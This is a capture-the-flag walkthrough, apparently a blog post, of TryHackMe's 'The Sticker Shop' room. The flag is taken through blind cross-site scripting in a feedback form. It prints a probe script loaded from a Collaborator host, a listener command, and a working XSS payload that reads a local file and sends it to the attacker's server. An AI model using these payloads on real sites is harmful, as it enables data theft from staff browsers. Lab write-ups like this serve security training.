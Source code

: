 ```yaml
---
title: "The Sticker Shop"
date: 2024-11-30T03:00:00+06:00
draft: false
tags: ["hacking", "infosec", "tryhackme", "labs"]
categories: ["Write-ups"]
---
```


How I Solved The Sticker Shop CTF: Exploiting Blind XSS to Capture the Flag. This writeup walks you through the steps of exploiting a Blind XSS vulnerability in a real-world CTF challenge and extracting sensitive data.  

### Room Title
**The Sticker Shop**

### Description
Your local sticker shop has finally developed its own webpage. However, the developers lack web development experience. As a result, they decided to develop and host the webpage on the same computer they use for browsing the internet and checking customer feedback. Smart move!  

The goal of this challenge is to exploit the website and read the flag located at:  
`http://10.10.69.107:8080/flag.txt`  

> Note: 10.10.69.107 is my target machine IP.  

---

## Reconnaissance
Website Overview  
The website consists of two pages:  

### Home Page

- Displays a simple interface with cat stickers and some styling.  
- No apparent vulnerabilities were found here.  

### Submit Feedback Page

- Contains a feedback form with a textarea for users to submit their comments.  
- The form sends a POST request to /submit_feedback.  

### Initial Observations

- The feedback form allows user-supplied input, which could be a potential injection point for attacks like Cross-Site Scripting (XSS).  
- The response to a normal feedback submission is: `Thanks for your feedback! It will be evaluated shortly by our staff`.
![Feedback Response](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*azUPdeyHKnw9ZXVhBEMlJw.png)  

This suggests the feedback is reviewed manually, likely in a staff browser or a vulnerable environment.

---

## Blind XSS Discovery
### Testing for Blind XSS
1. I used **Burp Collaborator** to check if a Blind XSS vulnerability existed.  
2. Payload used: `'"><script src=https://sa6xlni3han13p5f0zgt35x5twznndb2.oastify.com></script>`  

> Note: Here I used my own BurpSuite Collaborator URL.  

![Payload on Feedback form](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*Pt4unwl6ecCPT4ryPp0VOw.png)  
![Burpsuite collaborator response](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*0NOlJtrq_rLMOGRq9b3YNA.png)  

3. After submitting the payload in the feedback form, I observed a DNS interaction logged in Burp Collaborator, confirming the execution of the payload.  

### Vulnerability Context
- Since the feedback is processed and evaluated by staff, any malicious JavaScript submitted through the form will execute when the feedback is reviewed.  
- This confirmed the presence of a Blind XSS vulnerability.

---

## Exploitation
### Setting Up the Listener
I needed a way to exfiltrate data from the server, so I set up a Python HTTP server to act as my listener:  
`python3 -m http.server 8000`  
![Python3 http server](https://miro.medium.com/v2/resize:fit:640/format:webp/1*iOBjYEGRJe2GuEaSdf-qyw.png)


### Crafting the Exploit Payload
To exploit the vulnerability, I crafted a JavaScript payload that:  

- Fetches the flag from the server’s localhost (127.0.0.1:8080/flag.txt).  

I used the localhost address because they said that they host everything on the same computer that they use for browsing the internet and looking at customer feedback.   
![Hint in the challenge description](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*ZU1zWoy2x1hVy_abAE7Jbw.png)


- Sends the retrieved content to my HTTP server.  
Payload:  
```
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<YOUR-IP-ADDRESS-tun0>:8000/?flag=' + encodeURIComponent(data));
    });
</script>
```
> Note: Edit and Replace your own IP Address.  
![Payload in the feedback submission form](https://miro.medium.com/v2/resize:fit:828/format:webp/1*Bn_YgVJOQfWbmOQlUr6I1g.png)

### Injecting the Payload
I submitted the payload in the feedback form.  
Shortly after, my HTTP server captured the exfiltrated flag in the query string of an incoming GET request.  
Example captured request:
![Exaple captured request](https://miro.medium.com/v2/resize:fit:828/format:webp/1*6fahVHTBl2qdC-a-k0xjBA.png)

---

## Lessons Learned
### Blind XSS:

This challenge demonstrates how Blind XSS can be leveraged to execute arbitrary JavaScript on a vulnerable system.  

### Feedback Form Vulnerability:

The lack of input sanitization in the feedback form made this attack possible. It highlights the importance of validating and escaping user input.  

### Exfiltration Techniques:

The exploitation involved fetching sensitive data from localhost (via fetch) and sending it to an external server (via another fetch request).  

### Secure Development Practices:

Always sanitize user inputs, especially in contexts where they might be rendered and executed by another user or system.  

## Conclusion

The Sticker Shop challenge was an engaging task that tested my ability to identify and exploit a Blind XSS vulnerability effectively. By understanding the context in which the staff processed the feedback, I was able to craft and execute a payload to capture the flag successfully.  

---

That’s all for the TryHackMe’s The Sticker Shop room write-up.  
I published it previously on my Medium Blog: [View the post](https://0xshakhawat.medium.com/the-sticker-shop-tryhackme-walkthrough-fad7ff10cbc7)

---